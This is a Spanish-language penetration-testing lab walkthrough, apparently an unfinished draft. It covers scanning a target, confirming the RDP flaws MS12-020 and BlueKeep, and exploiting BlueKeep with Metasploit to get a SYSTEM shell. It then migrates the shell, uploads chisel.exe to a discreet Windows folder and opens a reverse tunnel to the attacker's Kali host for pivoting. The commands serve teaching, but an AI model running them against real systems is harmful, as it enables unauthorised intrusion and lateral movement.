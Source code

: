 # Infraestructura objetivo

La infraestructura con la que estaremos trabajando será la siguiente:

![alt text](image-1.png)

Nosotros partiremos de una máquina Kali ubicada en la parte izquierda del esquema, e iremos ganando acceso a las máquinas a la par de ir creando una infraestructura que nos permita operar y tomar control de la red.

## Pruebas de penetración


### Escaneo con Nmap


Nmap se utiliza para escanear puertos y servicios abiertos en el sistema objetivo.


```bash
nmap -A -p- -T4 <target-ip>
```

Este comando realiza un escaneo completo en todos los puertos y utiliza opciones de temporización agresivas.

Detectamos un puerto en estado *wrapped*, por lo que vamos a comprobar manualmente que funciona

## Estado del puerto con Netcat

```bash
nc -zv <target-ip> <port>
```

Verificamos que efectivamente el puerto está abierto

<<capturita>>

## Metasploit - Comprobación MS12-020

El módulo de Metasploit `auxiliary/scanner/rdp/ms12_020_check` se puede utilizar para comprobar si el sistema objetivo es vulnerable al CVE-2012-0002.

```bash
msfconsole
use auxiliary/scanner/rdp/ms12_020_check
set RHOSTS <target-ip>
run
```

Podemos ver en el resultado del módulo que efectivamente la máquina es vulnerable:

<<capturita>>

De igual manera, verificamos para la vulnerabilidad **BlueKeep CVE-2019-0708**

```bash
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS <target-ip>
run
```

Y comprobamos que también es vulnerable, por lo que vamos a utilizar el módulo `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` para explotar la vulnerabilidad:

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS <target-ip>
set TARGET 1
run
```

Como resultado de la explotación, obtenemos una shell en el sistema y además con máximos privilegios

<<capturita que muestre NT AUTHORITY SYSTEM>>

Para obtener una mayor estabilidad en nuestra shell, ya que es posible que el proceso asociado se destruya debido a la naturaleza de la vulnerabilidad, vamos a migrar nuestra shell preferiblemente a un proceso de sistema. En este caso hemos conseguido migrar al proceso de inicialización de windows "wininit.exe"

```bash
meterpreter> ps
meterpreter> migrate <wininit-pid>
```

Con esto hecho, ahora vamos a dejar esta shell en segundo plano con el comando `background` porque vamos a realizar una técnica de persistencia en el objetivo. 

Para ello utilizaremos el módulo de metasploit `local/persistence_service` 

# AÑADIR EL COMO HACER PERSISTENCIA AQUI

## Subida de Chisel al objetivo

Aprovechando nuestra meterpreter, vamos a utilizar su comando `upload` para subir un archivo ejecutable de *chisel* una utilidad para crear conexiones bidireccionales que nos permitirá pivotar a la siguiente máquina en la red objetivo.

```bash
upload chisel.exe /temp
```

Lo subiremos al directorio `C:\Windows\temp` debido a que es un directorio más discreto para realizar este tipo de operaciones. Con eso subido, haremos lo siguiente:

En la máquina Kali (será nuestro server chisel):

```bash
chisel server -p <port> --reverse &
```

En la máquina objetivo (será nuestro server cliente chisel):

```bash
chisel client <kali-ip>:<port> R:<port-to-forward>:<target-ip>:<target-port>
```

Este comando inicia un servidor Chisel en la máquina Kali y configura un enrutamiento de puertos inverso desde el sistema objetivo a la máquina Kali.

Por favor, tenga en cuenta que los comandos y técnicas mencionados son para fines educativos y éticos solamente. Siempre obtenga la autorización adecuada antes de realizar cualquier actividad de pruebas de penetración.

Habiendo realizado esto, tendremos el primer túnel de conexión que nos permitirá usar las herramientas de nuestra máquina Kali en el **PC 1**

![alt text](image-2.png)

Esto nos permitirá usar la máquina **PC 1** como proxy a través del cuál enviar nuestras herramientas de Kali al **PC 2** a través de *proxychains*

